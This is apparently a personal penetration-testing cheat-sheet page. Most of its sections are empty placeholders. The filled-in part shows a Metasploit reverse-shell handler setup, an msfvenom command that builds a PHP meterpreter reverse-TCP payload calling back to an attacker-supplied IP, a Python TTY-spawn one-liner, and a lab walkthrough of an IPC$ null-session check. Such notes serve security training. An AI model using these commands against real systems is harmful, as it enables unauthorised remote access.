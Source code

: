 ```yaml
---
layout: page
title: "/brainbox"
permalink: /brainbox/
---
```





## <details><summary>API </summary>
    <details><summary>REST</summary>
        content 1.1
    </details>
    <details><summary>SOAP</summary>
        content 1.2
    </details>
</details>



<details><summary>WEB</summary>
    <details><summary>head 2.1</summary>
        content 1.1
    </details>
    <details><summary>head 2.2</summary>
        content 1.2
    </details>
</details>


<details><summary>MOBILE</summary>
    <details><summary>Android</summary>
        content 1.1
    </details>
    <details><summary>iOS</summary>
        content 1.2
    </details>
</details>


<details><summary>NIX</summary>
    <details><summary>Exploitation</summary>
        content 1.1
    </details>
    <details><summary>Privilege Escalation</summary>
        content 1.2
    </details>
  <details><summary>Post Exploitation</summary>
        content 1.2
    </details>
</details>


<details><summary>WINDOWS</summary>
    <details><summary>Exploitation</summary>
        content 1.1
    </details>
    <details><summary>Privilege Escalation</summary>
        content 1.2
    </details>
  <details><summary>Post Exploitation</summary>
        content 1.2
    </details>
</details>


<details><summary>ACTIVE-DIRECTORY</summary>
    <details><summary>Initial Access</summary>
        content 1.1
    </details>
    <details><summary>Local Privilege Escalation</summary>
        content 1.2
    </details>
  <details><summary>Post Exploitation</summary>
        content 1.2
    </details>
  <details><summary>Lateral Movement</summary>
        content 1.2
    </details>
  <details><summary>Clearing Tracks</summary>
        content 1.2
    </details>
</details>



## Metasploit
#### ./ Handlers

```bash 
msf6 > use exploit/multi/handler
msf6 > set PAYLOAD <Payload name>
msf6 > set LHOST <LHOST value>
msf6 > set LPORT <LPORT value>
msf6 > set ExitOnSession false
msf6 > exploit -j -z
```
<br/>
Once the required values are completed the following command will execute your handler: ‘msfconsole -L -r' 
<br/>
<br/>

#### ./ Scripting Payloads
PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address> lport=<your-port-address> -o shell.php
```

<br/>

## Python
#### ./ Spawn a terminal

```python
python -c 'import pty;pty.spawn("/bin/bash")';
```
<details> 
  <summary> <b>Checking for Null Sessions</b> </summary>

To verify that, we will exploit the IPC$ administrative share by trying to connect to it without valid credentials.

To connect, you have to type the following command in a Windows shell:

```bash
> NET USE \\<target IP address>\IPC$ '' /u:''
```

This tells Windows to connect to the IPC$ share by using an empty password and an empty username!

Let's try the command on our target:

<br/>
<img src="/assets/images/pts_labs/null_sessions/checking11.png" height="50%" width="50%">
<br/>


The previous command establishes a connection to the IPC$ administrative share without specifying a user; this is possible because our target host is vulnerable to null session attacks. This test only works with the IPC$. For example, it does not work with C$:
  
Example:
<br/>
<img src="/assets/images/pts_labs/null_sessions/checking12.png" height="60%" width="60%">
<br/>
You can also perform the very same checks by using smbclient:
<br/>
<img src="/assets/images/pts_labs/null_sessions/checking13.png" height="70%" width="70%">
</details>
